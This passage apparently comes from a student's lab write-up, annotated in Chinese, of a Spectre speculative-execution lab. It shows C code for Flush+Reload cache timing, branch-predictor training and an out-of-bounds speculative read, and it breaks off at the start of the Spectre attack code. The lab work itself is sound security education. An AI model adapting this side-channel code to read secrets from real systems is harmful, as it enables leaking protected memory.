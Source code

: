 ```c=
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  uint32_t junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
  printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n",i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
      temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;
  // FLUSH the probing array
  flushSideChannel();
  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
   //_mm_clflush(&size); 
   victim(i+20);
  }
  // Exploit the out-of-order execution
  //_mm_clflush(&size);
  for (i = 0; i < 256; i++)
   _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  
  // RELOAD the probing array
  reloadSideChannel();
  return (0); 
}
```
成功抓到是在array[97*4096]的地方，因為一開始有訓練cpu讓他執行很多次結果是true的if指令，因為cpu會記憶，有點類似time localitiy的效果，如果這幾次的if判斷都是true，那麼後面幾次cpu會先跳進去if statment是true的位置預先執行，因此在我們執行這次97時，因為cpu預先執行，導致有把array[97*4096]放在cacahe裡面，所以攻擊才會成功的。
### task4 The Specture Attack
```c=
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp = 0;
```